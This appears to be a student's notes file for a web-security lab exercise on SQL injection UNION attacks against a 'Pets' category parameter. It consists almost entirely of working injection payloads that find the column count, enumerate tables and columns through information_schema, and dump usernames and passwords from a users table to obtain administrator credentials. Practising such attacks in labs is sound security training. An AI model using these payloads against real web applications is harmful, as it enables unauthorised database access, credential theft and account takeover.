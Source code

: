 #SQL injection UNION attack, retrieving data from other tables

##determine number of col
category=Pets' ORDER BY 3--

##determine which col contain text data
category=Pets' UNION SELECT 'A','B' --

##retrieve the list of tables in the DB
category=Pets' UNION SELECT table_name,table_type FROM information_schema.tables --

##find the name of the table with credentials (view VS base table)

##list column names from table users
category=Pets' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name='users' --

##find the name of the columns for username,password

##list users(username,password) from table users
category=Pets' UNION SELECT username,password FROM users --

##find the administrator credentials







